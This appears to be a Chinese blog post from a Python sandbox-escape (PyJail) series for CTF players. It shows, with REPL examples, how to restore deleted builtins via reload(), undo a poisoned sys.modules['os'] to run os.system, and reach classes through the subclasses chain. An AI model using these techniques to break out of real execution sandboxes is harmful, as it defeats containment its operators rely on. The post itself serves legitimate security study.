 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [dummykitty.github.io](https://dummykitty.github.io/posts/pyjail-bypass-01-%E7%BB%95%E8%BF%87%E5%88%A0%E9%99%A4%E6%A8%A1%E5%9D%97%E6%88%96%E6%96%B9%E6%B3%95/)

> 绕过删除模块或方法

绕过删除模块或方法[](#绕过删除模块或方法)
-----------------------

在一些沙箱中，可能会对某些模块或者模块的某些方法使用 `del` 关键字进行删除。 例如删除 builtins 模块的 eval 方法。

```
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'
```

### reload 重新加载[](#reload-重新加载)

reload 函数可以重新加载模块，这样被删除的函数能被重新加载

```
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'
>>> reload(__builtins__)
<module '__builtin__' (built-in)>
>>> __builtins__.__dict__['eval']
<built-in function eval>
```

在 Python 3 中，reload() 函数被移动到 importlib 模块中，所以如果要使用 reload() 函数，需要先导入 importlib 模块。

### 恢复 sys.modules[](#恢复-sysmodules)

一些过滤中可能将 `sys.modules['os']` 进行修改. 这个时候即使将 os 模块导入进来, 也是无法使用的.

```
>>> sys.modules['os'] = 'not allowed'
>>> __import__('os').system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
```

由于很多别的命令执行库也使用到了 os, 因此也会受到相应的影响, 例如 subprocess

```
>>> __import__('subprocess').Popen('whoami', shell=True)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/kali/.pyenv/versions/3.8.10/lib/python3.8/subprocess.py", line 688, in <module>
    class Popen(object):
  File "/home/kali/.pyenv/versions/3.8.10/lib/python3.8/subprocess.py", line 1708, in Popen
    def _handle_exitstatus(self, sts, _WIFSIGNALED=os.WIFSIGNALED,
AttributeError: 'str' object has no attribute 'WIFSIGNALED'
```

由于 import 导入模块时会检查 sys.modules 中是否已经有这个类，如果有则不加载, 没有则加载. 因此我们只需要将 os 模块删除, 然后再次导入即可.

```
sys.modules['os'] = 'not allowed' # oj 为你加的

del sys.modules['os']
import os
os.system('ls')
```

### 基于继承链获取[](#基于继承链获取)

在清空了 `__builtins__`的情况下，我们也可以通过索引 subclasses 来找到这些内建函数。

```
# 根据环境找到 bytes 的索引，此处为 5
>>> ().__class__.__base__.__subclasses__()[5]
<class 'bytes'>
```

参考资料[](#参考资料)
-------------

*   [Python 沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
*   [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
*   [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
*   [python 沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
*   [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
*   [[PyJail] python 沙箱逃逸探究 · 上（HNCTF 题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
*   [[PyJail] python 沙箱逃逸探究 · 中（HNCTF 题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
*   [[PyJail] python 沙箱逃逸探究 · 下（HNCTF 题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
*   [audited2](https://ctftime.org/writeup/31883)
*   [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
*   [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
*   [Python 沙箱逃逸的 n 种姿势](https://ctftime.org/writeup/28286)
*   [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)

This post is licensed under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) by the author.
